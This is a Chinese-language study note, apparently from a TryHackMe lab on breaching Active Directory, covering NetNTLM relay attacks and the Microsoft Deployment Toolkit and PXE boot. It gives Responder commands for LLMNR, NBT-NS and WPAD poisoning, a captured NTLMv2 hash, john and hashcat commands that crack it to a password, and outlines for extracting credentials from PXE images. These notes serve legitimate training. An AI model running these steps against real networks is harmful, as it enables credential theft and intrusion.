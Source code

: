 	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	認證中繼(Authentication Relays)
		--> https://tryhackme.com/r/room/hololive
		--> SMB使用的 NetNTLM 身份驗證
		--> 伺服器訊息區塊 (SMB) 協定允許客戶端（如工作站）與伺服器（如檔案共用）進行通訊
		--> 1. 用離線破解技術來恢復與NTLM Challenge相關的密碼。
		--> 2. 惡意裝置發動中間人攻擊

		--> Responder 
			--> 使用 Responder 嘗試攔截 NetNTLM 挑戰來破解它
			--> Responder 允許我們透過在 NetNTLM 驗證期間毒害回應來執行中間人攻擊
			--> 嘗試毒害偵測到的任何連結本地多播名稱解析 (LLMNR)
				NetBIOS 名稱服務 (NBT-NS) 
				Web 代理程式自動發現 (WPAD) 要求
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		攔截 NetNTLM 挑戰
			--> git clone https://github.com/lgandx/Responder.git
				--> sudo python3 Responder.py -I breachad
				--> fix 
					--> sudo lsof -i tcp:389 -s tcp:listen
					--> sudo lsof -i tcp:389 -s tcp:listen
			--> sudo python3 Responder.py -I breachad
				[+] Listening for events...  (wait 10 min)

			[SMB] NTLMv2-SSP Client   : 10.200.55.202
			[SMB] NTLMv2-SSP Username : ZA\svcFileCopy
			[SMB] NTLMv2-SSP Hash     : svcFileCopy::ZA:..
					
			--> 破解雜湊	
				--> john --wordlist=passwordlist-1647876320267.txt N_hash.txt
				--> hashcat -m 5600 N_hash.txt passwordlist-1647876320267.txt --force
				
				=> FPassword1!      (svcFileCopy)
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	微軟部署工具包 (Microsoft Deployment Toolkit)
		--> Microsoft 部署工具包 (MDT)
		--> MDT 與 Microsoft 的系統中心組態管理器 (SCCM) 集成
			=> MDT : 在中央位置維護和更新基礎映像
			=> SCCM : 管理Microsoft 應用程式、服務和作業系統的所有更新
		--> 預啟動執行環境 (PXE) 
			=> 連接到網路的新裝置直接透過網路連線載入和安裝作業系統
			=> PXE 啟動通常與 DHCP 集成
			
			--> 1. 注入權限升級向量
			--> 2. 執行密碼抓取攻擊以恢復安裝期間使用的AD憑證\
			
			--> https://github.com/wavestone-cdt/powerpxe
			--> WIM 檔案是 Windows 映像格式 (WIM) 的可啟動映像
			--> TFTP 從 MDT 伺服器恢復檔案
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
		--> PXE 啟動映像檢索
			=> 使用 TFTP 請求每個 BCD 檔案並列舉所有檔案的配置
			=> x64{7C1F8215-68C1-46C8-994D-7CD11B19D57C}.bcd
			